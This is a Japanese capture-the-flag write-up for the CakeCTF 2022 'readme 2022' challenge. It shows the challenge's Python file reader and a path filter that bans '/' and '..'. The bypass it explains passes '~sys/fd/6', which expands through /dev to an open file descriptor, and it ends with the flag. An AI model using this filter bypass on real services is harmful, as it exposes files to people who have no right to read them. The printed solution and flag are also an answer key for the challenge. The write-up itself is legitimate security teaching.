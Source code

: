 # readme 2022:misc:133pts
`nc misc.2022.cakectf.com 12022`  

[readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz](readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz)  

# Solution
どこかで見たような問題名だ。  
ひとまずソースを見ると以下のようであった。  
```python
import os

try:
    f = open("/flag.txt", "r")
except:
    print("[-] Flag not found. If this message shows up")
    print("    on the remote server, please report to amdin.")

if __name__ == '__main__':
    filepath = input("filepath: ")
    if filepath.startswith("/"):
        exit("[-] Filepath must not start with '/'")
    elif '..' in filepath:
        exit("[-] Filepath must not contain '..'")

    filepath = os.path.expanduser(filepath)
    try:
        print(open(filepath, "r").read())
    except:
        exit("[-] Could not open file")
```
フラグは同梱されていたDockerfileから`/flag.txt`にあるようだ。  
スクリプトは入力のパスにあるファイルを読み取って表示するだけだが、`..`と`/`での開始が禁止されている。  
明らかに`os.path.expanduser(filepath)`が怪しいので、[ドキュメント](https://docs.python.org/3/library/os.path.html#os.path.expanduser)を見てみる。  
どうやら`~user`がそのユーザのホームディレクトリに置換されるらしい。  
例えば`~ctf`ならば`/home/ctf`となる。  
ここで`/etc/passwd`などを見てやり、`/`に近いホームディレクトリを持つユーザを調査する。  
```bash
ctf@0fb006453c11:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
すると`sys`ユーザのホームが`/dev`であることがわかる。  
`~sys`が`/dev`になるので、この直下をシンボリックリンクなどを期待して漁る。  
```bash
ctf@0fb006453c11:/app$ ls -al /dev
total 4
drwxr-xr-x 5 root root    360 Sep  3 17:27 .
drwxr-xr-x 1 root root   4096 Sep  3 05:27 ..
crw--w---- 1 ctf  tty  136, 0 Sep  3 17:27 console
lrwxrwxrwx 1 root root     11 Sep  3 17:27 core -> /proc/kcore
lrwxrwxrwx 1 root root     13 Sep  3 17:27 fd -> /proc/self/fd
crw-rw-rw- 1 root root   1, 7 Sep  3 17:27 full
drwxrwxrwt 2 root root     40 Sep  3 17:27 mqueue
crw-rw-rw- 1 root root   1, 3 Sep  3 17:27 null
lrwxrwxrwx 1 root root      8 Sep  3 17:27 ptmx -> pts/ptmx
drwxr-xr-x 2 root root      0 Sep  3 17:27 pts
crw-rw-rw- 1 root root   1, 8 Sep  3 17:27 random
drwxrwxrwt 2 root root     40 Sep  3 17:27 shm
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stderr -> /proc/self/fd/2
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdin -> /proc/self/fd/0
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdout -> /proc/self/fd/1
crw-rw-rw- 1 root root   5, 0 Sep  3 17:27 tty
crw-rw-rw- 1 root root   1, 9 Sep  3 17:27 urandom
crw-rw-rw- 1 root root   1, 5 Sep  3 17:27 zero
```
`/dev/fd`が`/proc/self/fd`へのシンボリックリンクとなっている。  
問題のスクリプトは最初にフラグが書かれたファイルをopenしているので、何番かのfdが掴んでいるだろうと予測できる。  
あとは3から適当に試せばよい。  
```bash
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/3
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/4
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/5

^C
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/6
CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}


```
flagが得られた。  

## CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}